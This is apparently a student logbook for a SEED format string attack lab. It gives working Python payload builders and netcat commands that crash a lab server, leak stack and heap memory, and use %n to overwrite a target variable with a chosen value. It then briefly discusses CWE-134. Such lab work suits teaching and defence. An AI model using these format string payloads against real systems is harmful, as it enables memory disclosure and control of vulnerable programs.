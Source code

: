 # Seedlab Week #6 (Format String Attack Lab)

# Question 1

### Initial setup

1. Run `sudo sysctl -w kernel.randomize_va_space=0` to disable address randomization.
2. Compile the program using `make && make install`.
3. Start the server in a new terminal by running `docker-compose build` followed by `docker-compose up` in the `/ftm-containers` folder. This setup allows us to view the server's output.

### Task 1: Crashing the Program

The goal of this task is to crash the program by exploiting a format string vulnerability.

Common format string parameters used in this lab:

| Parameters | Output                                                                  |
| ---------- | ----------------------------------------------------------------------- |
| `%x`       | Reads a value from the stack.                                           |
| `%s`       | Reads a string from the process's memory.                               |
| `%n`       | Writes the number of characters printed so far to an address in memory. |

To crash the program, we sent a series of `%s` format specifiers. The server interprets these as pointers to strings, and and at some point tries to access an invalid memory address, causing a crash. We executed the following command: `echo %s%s%s%s%s | nc 10.9.0.5 9090` and then pressed `Ctrl + C`.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task1.png"/>
</p>

As shown in the output, the line `(^_^)(^_^) Returned properly (^_^)(^_^)` is missing, indicating that the program crashed.

<!-- > **Note** in this task we could send just one `%s` because the first value in a stack is `0x11223344` ... Sera que da para esplicar porque isso nao endereso valido? -->

### Task 2: Printing Out the Server Program's Memory

#### Task 2.A: Stack Data

In this task, we aimed to print data from the stack and determine how many `%x` specifiers are needed to print the first 4 bytes of our input.

To achieve this, we used a Python script (`build_string.py`) to create a payload:

```py
import sys

s = b"AAAA" + b".%x"*100

with open('badfile', 'wb') as f:
  f.write(s)
```

The payload starts with `AAAA` followed by 100 `%x` specifiers, separated by dots for readability. And run `python3 build_string.py`; `cat badfile | nc 10.9.0.5 9090` and pressed `Ctrl + C`.

The output on the server:

<!-- se calhar por em vermelho o 41414141 -->
<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task2a.png"/>
</p>


We observed that the value `41414141` (hexadecimal representation of `AAAA`) appeared at the 64th position (counting the number of dots). This indicates that 64 `%x` specifiers are needed to print our 4 bytes from the process memory.

#### Task 2.B: Heap Data

In this attack the objective was to read a string from a specific address printed by the server:

```
server-10.9.0.5 | The secret message's address:  0x080b4008
```
Steps to achieve this:

1. Place the address of the secret message (`0x080b4008`) at the beginning of the payload.
2. Use 63 repetitions of `%x` to skip 63 address positions on the stack (based on the previous task, where 63 * 4 bytes precede the bytes we wrote).
3. Add a single `%s` to instruct the server to read a string from the stack, which will be the address we placed in the step 1.

The final `build_string.py` code:

```py
import sys

address = 0x080b4008
address_in_bytes = (address).to_bytes(4,byteorder='little')

payload = address_in_bytes + b"%x"*63 + b"%s"

with open('badfile', 'wb') as f:
  f.write(payload)
```

We ran `python3 build_string.py`, then sent `echo hello` to verify the string's address and then used our `badfile` to read the string (`cat badfile | nc 10.9.0.5 9090`).

With that, we received the following output:

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task2b.png"/>
</p>

At the end of the output, we saw the string `"A secret message"`, confirming that we successfully read the message from the heap.

### Task 3: Modifying the Server Program's Memory

#### Task 3.A: Change the value to a different value

In this task, our objective was to modify the value of a specific variable, `target`, in the server's memory. The original value of this variable was `0x11223344`, as displayed in the server's output, and its address in memory was `0x080e5068`.

To accomplish this, we used the `%n` format specifier, which writes the number of characters printed so far to a specified memory address.

The final `build_string.py` code:

```py
import sys

address = 0x080e5068
address_in_bytes = (address).to_bytes(4,byteorder='little')

payload = address_in_bytes + b"%x"*63 + b"%n"

with open('badfile', 'wb') as f:
  f.write(payload)
```

We placed the address of our target variable at the start of the payload, then skipped 63 values from the stack, and added `%n` to instruct the program to write the number of printed values to the address on the stack, which will be our specified address (`0x080e5068`).

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task3a.png"/>
</p>

In the server output, we can see `The target variable's value (before): 0x11223344` and `The target variable's value (after): 0x000000ee`. This confirms that we successfully modified the target variable's value from `0x11223344` to `0x000000ee`.

#### Task 3.B: Change the value to 0x5000

Based on the previous task which already overwrites the target variable, we know have to find a way to control which value is placed in that memory address. More specifically, we have to write the value `0x5000` into that memory address.

For this, we will still use the `%n` specifier to write the value in the designated address, but we will also use the last `%x` to control the number of characters printed.

```python
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

n = 0x5000 - 4 - 62 * 8
s = "%.8x" * 62 + f"%.{n}x" + "%n"

address = 0x080e5068
content[0:4] = (address).to_bytes(4,byteorder='little')

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

By doing this, we start by writing the designated address we want to overwrite in the start of the buffer. After this, the printf will start by executing the `%.8x` which will print 8 characters and advance 4 bytes in stack memory, a total of 62 times. Then, it will execute the `%.{n}x` which will print the n characters and advance one more address in memory. Finally, it will write the value of printed chars (`0x5000`) to the address initially defined (`0x080e5068`), using the `%n` format specifier.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task3b.png"/>
</p>

In the server output, we can see `The target variable's value (before): 0x11223344` and `The target variable's value (after): 0x0005000`. This confirms that we successfully modified the target variable's value from `0x11223344` to `0x00005000`.

# Question 2

The attacks we performed along the tasks are caused by the weakness CWE-134 "Use of Externally-Controlled Format String". According to [CWE Mitre](https://cwe.mitre.org/data/definitions/134.html), this weakness is observed when a function accepts a format string, originated from an external source (e.g. user input), as its argument.

Since a user string can be stored in the heap, just as in the stack, we can also observe a vulnerability if the format string is allocated dynamically. For example, we can use something similar to the exploit on task 2.A to read information from the stack, which can include sensitive data.

However, for running the attacks we used on this guide, we need to store the address in memory we want to read/write to in a position that can be interpreted by `printf` as the address of one of its arguments. This means that the value needs to be stored on the stack, so it cannot be influenced by information of the format string, making all the attacks we performed infeasible. It can only be done by using non-deterministic solutions, such as using pre-existing stack values.

